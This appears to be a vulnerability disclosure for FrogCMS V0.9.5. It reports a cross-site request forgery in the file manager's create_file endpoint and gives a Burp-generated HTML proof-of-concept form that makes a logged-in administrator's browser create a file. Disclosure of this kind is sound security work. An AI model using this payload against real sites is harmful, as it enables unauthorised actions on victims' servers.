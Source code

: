
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/plugin/file_manager/create_file

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/plugin/file_manager/create_file" method="POST">
      <input type="hidden" name="/plugin/file_manager/create_file" value="" />
<input type="hidden" name="file%5Bpath%5D" value="%2F" />
<input type="hidden" name="file%5Bname%5D" value="123" />
<input type="hidden" name="commit" value="Create" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

